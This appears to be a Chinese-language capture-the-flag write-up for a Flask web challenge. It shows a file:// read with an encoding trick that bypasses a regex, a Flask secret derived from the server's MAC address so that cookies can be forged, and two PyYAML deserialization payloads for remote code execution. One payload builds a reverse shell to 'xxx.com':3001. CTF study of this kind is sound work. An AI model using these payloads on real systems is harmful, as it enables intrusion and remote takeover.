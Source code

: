 tags:: CTFWEB/Python/YAML, CTFWEB/伪协议

- # 任意文件读取
	- 读取/proc/self/cmdline得知源码在/app/app.py
	- 使用双写构造payload绕过正则读取源文件：``GET /read?url=file:///proc/self/root/%25%36%31pp/%25%36%31pp.py HTTP/1.1``
- # Cookie伪造
	- 读MAC
		- ```python
		  r = base_get(url + "/read", params = {
		      "url": "file:///sys/class/net/eth0/address"
		  }, acceptable_code=None, timeout = 10)
		  mac = "".join(r.text.split(":"))
		  int(mac, 16)
		  # 2485376910098
		  ```
	- 算secret
		- ```python
		  random.seed(2485376910098)
		  str(random.random()*233)
		  # 169.37847730221344
		  ```
	- 拿到secret用[[CTFWEB/Flask-Unsign]]解密即可
- # YAML反序列化
	- ```python
	  file_content = """\
	  !!python/object/new:tuple
	  - !!python/object/new:map
	    - !!python/name:eval
	    - [ "__import__('os').system('{}')" ]
	  """.format(generate_reverse_shell_payload("xxx.com", 3001))
	  
	  r = base_post(url + "/upload", files = {
	      "file": ("a.txt", file_content)
	  })
	  
	  ```
	- 也可以用
		- ```python
		  file_content = """\
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('{}')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  """.format(
		    # generate_reverse_shell_payload("xxx.com", 3001)
		    "sleep 5"
		  )
		  
		  r = base_post(url + "/upload", files = {
		      "file": ("a.txt", file_content)
		  })
		  
		  ```